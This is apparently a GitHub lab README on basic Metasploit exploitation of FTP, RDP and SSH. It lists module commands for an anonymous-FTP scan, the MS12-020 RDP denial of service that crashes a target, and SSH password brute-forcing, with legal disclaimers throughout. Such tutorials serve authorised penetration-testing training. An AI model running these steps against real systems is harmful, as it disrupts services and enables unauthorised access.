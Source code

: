# Exploitation Techniques

This guide outlines basic exploitation techniques for FTP, RDP, and SSH.  **This guide is for educational purposes only. Unauthorized access to computer systems is illegal. Use these techniques only on systems you own or have explicit permission to test.**

## Table of Contents

*   [FTP Exploitation](#ftp-exploitation)
*   [RDP Exploitation](#rdp-exploitation)
*   [SSH Exploitation](#ssh-exploitation)
*   [Important Considerations](#important-considerations)

## FTP Exploitation <a name="ftp-exploitation"></a>

This section covers common FTP vulnerabilities and exploitation techniques.

*   Anonymous Authentication: Exploiting misconfigured FTP servers that allow login without credentials.
*   Directory Traversal: Accessing files and directories outside the intended web root.
*   Cross-Site Scripting (XSS): Injecting malicious scripts (less common in pure FTP but possible if integrated with web services).
*   Dridex:  (Note: Dridex is malware, not a direct FTP exploit. It might be *delivered* via compromised systems, including FTP servers, but it's not an FTP vulnerability itself.)

### Tools

*   Kali Linux
*   Metasploit
    *   `msfconsole`
    *   `msfweb` (less commonly used now)
    *   `msfpayload` (deprecated, use `msfvenom`)
    *   `msfcli` (deprecated)
    *   `msflogdump`

### Payloads

*   Singles: Self-contained payloads.
*   Stagers: Small payloads that download larger "stages."
*   Stages: The components downloaded by stagers.

### Starting an Exploit (Example: Anonymous Login Check)

1.  Open Metasploit: `msfconsole`

![Alt text](./FTP/msf.png "start")

2.  Use the anonymous login module: `use auxiliary/scanner/ftp/anonymous`

3.  Set the target IP: `set RHOSTS <target_ip>`

![Alt text](./FTP/config.png "Config")

![Alt text](./FTP/show.png "Show")

4.  Run the exploit: `run`

### Results

If the FTP port is not open or anonymous login is disabled, the exploit will fail.  The provided image shows a likely failure due to incorrect usage or a closed port.  Review the Metasploit output for specific error messages.



![Alt text](./FTP/result.png "result")

## RDP Exploitation <a name="rdp-exploitation"></a>

This section covers RDP exploitation techniques.

*   Denial of Service (DoS): Overwhelming the RDP service, causing it to crash or become unresponsive. This often targets vulnerabilities.
*   (Note: The README mentions "remote assistance invitations."  This is not directly related to the MS12-020 exploit shown, which is a more serious vulnerability.)

### Starting an Attack (Example: MS12-020 DoS)

1.  Obtain the target IP.

2.  Use the exploit: `use auxiliary/dos/windows/rdp/ms12_020_maxchannelids`

![Alt text](./DoS/exploit.png "Optional title")

3.  Set the target IP: `set RHOSTS <target_ip>`

    ![Alt text](./DoS/config.png "Optional title")

4.  Run the exploit: `run`

### Result

A successful DoS attack might cause a Blue Screen of Death (BSOD) or make the target unresponsive. The provided image shows a BSOD, which suggests a successful attack (or other system instability).

   ![Alt text](./DoS/run.png "Optional title")

  ![Alt text](./DoS/blueScreen.png "Optional title")

## SSH Exploitation <a name="ssh-exploitation"></a>

This section covers SSH exploitation techniques.

  ![Alt text](./SSH/search.png "search")

*   Anonymous Authentication: (Rarely possible) Exploiting misconfigurations that allow login without credentials.
*   Directory Traversal: (Unlikely in a standard SSH setup) More relevant if SSH is used to serve web content.
*   Cross-Site Scripting: (Very unlikely in a standard SSH setup)  Only relevant if SSH is integrated with web services.
*   Dridex: (As with FTP) Not a direct SSH vulnerability but malware that could be present on a compromised system.

 

### Tools

*   Kali Linux
*   Metasploit
    *   `msfconsole`
    *   `msfweb` (less commonly used now)
    *   `msfpayload` (deprecated, use `msfvenom`)
    *   `msfcli` (deprecated)
    *   `msflogdump`

### Payloads

*   Singles
*   Stagers
*   Stages

### Starting an Exploit (Example: Brute-Force Authentication)

1.  Open Metasploit: `msfconsole`

2.  Search for SSH login modules: `search ssh_login`

3.  Use the SSH login module: `use auxiliary/scanner/ssh/ssh_login`

4.  Set the target IP: `set RHOSTS <target_ip>`

5.  Set the username file: `set USER_FILE /home/kali/user.txt` (Important: Create this file)

6.  Set the password file: `set PASS_FILE /home/kali/password.txt` (Important: Create this file)

7.  Run the exploit: `run`

8.  Check sessions: `sessions` (If successful, a session will be created)

### Results

The provided screenshot doesn't show a successful login.  Review the Metasploit output for details.  Brute-forcing requires valid username and password lists.

![Alt text](./SSH/exploit.png "result")

## Important Considerations <a name="important-considerations"></a>

*   **Legality:** Only perform penetration testing on systems you own or have explicit permission to test.  Unauthorized access is illegal.
*   **Ethics:** Act responsibly and ethically. Do not cause damage or disrupt services.
*   **Payload Usage:** Be extremely careful with payloads.  Understand what they do before deploying them.
*   **Metasploit Usage:**  The examples provided are very basic.  Metasploit has many options and configurations.  Consult the Metasploit documentation for more advanced usage.
*   **Outdated Information:**  Some of the commands and tools mentioned are outdated.  `msfpayload` and `msfcli` are deprecated.  Use `msfvenom` for payload generation.  `msfweb` is less common now.  Keep your tools updated.

This improved README provides a more structured and informative overview of the exploitation techniques. It also emphasizes the importance of ethical considerations and legal compliance. Remember to always prioritize responsible and authorized testing.

  

